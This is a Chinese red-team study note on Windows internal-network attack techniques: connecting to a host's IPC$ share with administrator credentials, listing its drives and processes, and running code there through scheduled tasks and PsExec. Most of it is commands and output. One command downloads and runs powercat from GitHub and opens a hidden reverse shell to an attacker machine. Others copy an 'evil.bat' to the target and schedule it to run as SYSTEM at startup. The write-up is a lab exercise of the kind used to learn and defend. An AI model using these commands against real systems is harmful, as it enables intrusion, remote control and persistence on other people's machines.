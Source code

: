 ```yaml
---
title: 【内网学习笔记】19、IPC 与计划任务
date: 2021-08-02 18:10:52
id: 210802-181052
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210802180916.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 0、前言

在多层代理的环境中，由于网络限制，通常采用命令行的方式连接主机，这里学习下 IPC 建立会话与配置计划任务的相关点。

## 1、IPC

IPC (Internet Process Connection) 是为了实现进程间通信而开放的命名管道，当目标开启了 IPC$ 文件共享并得到用户账号密码后，就可以使用 IPC 建立连接，获取权限。

建立 IPC 连接：

```
net use \\192.168.7.107\ipc$ "1qaz@WSX" /user:administrator
```

输入 net use 可以查看当前建立的连接

```
C:\>net use \\192.168.7.107\ipc$ "1qaz@WSX" /user:administrator
命令成功完成。

C:\>net use
会记录新的网络连接。

状态       本地        远程                      网络
-------------------------------------------------------------------------------
OK                     \\192.168.7.107\ipc$      Microsoft Windows Network
命令成功完成。
```

映射磁盘到本地

```
net use t: \\192.168.7.107\c$
```

如果想删除映射的磁盘

```
net use t: /del
```

dir 列出对方目录

```
dir \\192.168.7.107\c$
```

```
C:\>dir \\192.168.7.107\c$
 驱动器 \\192.168.7.107\c$ 中的卷没有标签。
 卷的序列号是 BC2F-8F01

 \\192.168.7.107\c$ 的目录

2020/11/24  17:28    <DIR>          Program Files
2020/11/24  17:26    <DIR>          Program Files (x86)
2021/02/13  17:49    <DIR>          TEMP
2021/08/02  11:42    <DIR>          Users
2020/11/25  08:37    <DIR>          Windows
               0 个文件              0 字节
              5 个目录 32,833,009,664 可用字节
```

tasklist 查看进程

```
tasklist /S 192.168.7.107 /U administrator /P 1qaz@WSX
```

```
C:\>tasklist /S 192.168.7.107 /U administrator /P 1qaz@WSX

映像名称                       PID 会话名              会话#       内存使用
========================= ======== ================ =========== ============
System Idle Process              0                            0         24 K
System                           4                            0        368 K
smss.exe                       260                            0        628 K
csrss.exe                      356                            0      2,360 K
wininit.exe                    408                            0        264 K
csrss.exe                      420                            1      8,692 K
winlogon.exe                   468                            1      2,012 K
services.exe                   512                            0      7,460 K
lsass.exe                      520                            0     10,216 K
lsm.exe                        528                            0      4,148 K
spoolsv.exe                   1356                            0      6,504 K
svchost.exe                   1392                            0      7,028 K
```

使用 \del 可断开连接

```
net use \\192.168.7.107\ipc$ /del
```

## 2、计划任务

Windows 可用于创建计划任务的命令有两个，分别是 at 和 schtasks，at 在 Windows Server 2008 及之后的系统中，已经被废弃了。

这里看看在建立 IPC 连接后，使用计划任务运行可执行文件，主要步骤如下：

1、查看目标主机时间

2、上传可执行文件到目标主机

3、设置计划任务执行可执行文件

4、删除计划任务



首先查看下目标主机时间

```
net time \\192.168.7.107
```

```
C:\>net time \\192.168.7.107
\\192.168.7.107 的当前时间是 2021/8/2 14:28:01
命令成功完成。
```

创建一个反弹木马 bat 程序，这里使用 PowerShell 进行反弹，bat 文件内容如下：

```
powershell.exe -nop -w hidden -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://ghproxy.com/raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.7.4 -p 4444 -e cmd"
```

在攻击机上开启 nc 监听

```
nc -lvp 4444
```

将 bat 程序上传到目标主机

```
copy evil.bat \\192.168.7.107\c$
```

使用 at 创建计划任务

```
at \\192.168.7.107 14:30 C:\evil.bat
```

如果想清除 ID 为 1 的计划任务

```
at \\192.168.7.107 1 /del
```

使用 schtasks 创建计划任务

```
# 开机以 system 权限执行 C:\evil.bat
schtasks /create /s 192.168.7.107 /tn evil /sc onstart /tr C:\evil.bat /ru system /f

# 在 2021/08/03 前的每一天的 14:30:00 执行 C:\evil.bat
schtasks /create /s 192.168.7.107 /tn evil /tr C:\evil.bat /sc daily /st 14:30:00 /ed 2021/08/03

# 立刻运行名称为 evil 的任务
schtasks /run /s 192.168.7.107 /i /tn "evil"
```

如果想清除名称为 evil 的计划任务

```
schtasks /delete /s 192.168.7.107 /tn "evil" /f
```

在建立 IPC 连接后，除了使用计划任务进行间接的反弹 Shell，还可以通过 PsExec 直接反弹 Shell

PsExec 下载地址：[https://download.sysinternals.com/files/PSTools.zip](https://download.sysinternals.com/files/PSTools.zip)

```
Psexec.exe -accepteula \\192.168.7.107 -s cmd.exe
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210802180916.png)

> 参考文章：
> [https://www.freebuf.com/articles/web/251389.html](https://www.freebuf.com/articles/web/251389.html)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
